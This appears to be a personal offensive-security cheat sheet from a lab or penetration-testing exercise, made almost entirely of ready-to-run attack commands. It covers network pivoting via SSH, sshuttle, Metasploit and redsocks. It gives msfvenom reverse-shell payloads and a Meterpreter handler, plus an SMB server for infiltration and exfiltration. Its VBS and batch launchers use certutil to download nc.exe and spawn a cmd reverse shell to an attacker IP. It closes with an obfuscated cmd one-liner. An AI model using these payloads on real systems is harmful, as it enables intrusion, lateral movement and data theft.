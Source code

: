# These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe

EG:  
cmd /V:ON/C"set Eiz8=d3uc 0v-olCeh\xt.saip1mEO:fn4gMwr/_&&for %n in (3,22,0,16,11,14,11,4,33,3,4,3,11,32,15,2,15,19,9,16,11,14,11,4,7,2,32,9,3,18,3,12,11,4,7,17,20,9,19,15,4,7,26,4,12,15,15,20,25,33,33,21,5,16,21,5,16,21,28,16,21,28,33,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,7,27,6,4,21,5,16,21,5,16,21,28,16,21,28,4,28,28,1,4,7,11,4,3,22,0,16,11,14,11,39)do set xoi=!xoi!!Eiz8:~%n,1!&&if %n gtr 38 call %xoi:~5%"
